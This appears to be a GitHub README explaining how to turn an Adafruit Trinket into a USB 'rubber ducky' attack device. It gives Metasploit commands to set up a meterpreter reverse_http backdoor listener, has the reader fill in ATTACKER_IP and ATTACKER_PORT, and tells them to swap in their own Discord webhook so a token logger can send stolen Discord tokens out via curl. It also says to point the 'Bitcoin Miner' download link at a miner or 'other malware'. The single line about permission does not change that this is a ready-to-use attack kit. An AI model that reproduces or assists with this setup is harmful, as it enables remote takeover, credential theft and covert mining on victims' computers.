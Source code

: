 ## Icey's Script

[The Best USB Rubber Ducky Solution]
OTHER SCRIPTS CAN BE FOUND [HERE](https://github.com/IceyScript/payloads)


The first thing you will need is the device ~ roughly $40 cheaper then a real ducky ~ [Adafruit Trinket](https://www.adafruit.com/product/2000?gclid=CjwKCAjwm_P5BRAhEiwAwRzSOzePwCEtjDbmIK55p0BAYJ9yXicqMlGhq5fEl4ScdXdDDwepYw4XmBoCQEMQAvD_BwE)

Secondly You Will Need The Trinket Keyboard Library Found [Here](https://learn.adafruit.com/pro-trinket-keyboard/library)

Now, you need the IDE found here [IDE](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide)

Lastly, you need the [script](https://pastebin.com/raw/wdZ0axP5)

Now, once you have the script in your IDE, you need to make a few edits:
Make a Backdoor in Metasploit with these commands
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST YOUR-IP-HERE
set LPORT YOUR-PORT-HERE
run -j
```
After that is done, put your ip and port in the ATTACKER_IP section and port in the ATTACKER_PORT section.
Once that is done, change the discord webhook two lines after the "Discord Token LoggerIpTimeName" comment and the webhook at the end of the line that starts with Curl

Now, change the download link under "Bitcoin Miner" to your own direct download link to a miner/other malware

You can also add more exploits yourself with the same format as the others
Once done, plug your device into your PC, make sure it is in 

Once all of this is done, you must do a few more things to upload the script to the device
First: Select the Pro Trinket 5V/16MHz (USB) or Pro Trinket 3V/12MHz (USB) board from the Tools->Board menu
Second: Go into the Tools -> Programmer menu and select the USBtinyISP programmer
Third: Plug in the Trinket, make sure you see the green LED lit (power good) and the red LED pulsing. Press the button if the red LED is not pulsing, to get into bootloader mode.

Click the Upload button (or select File->Upload)

And that’s it! You’re ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code.

Enjoy! and remember: only use this on PC's you have permission to use it on
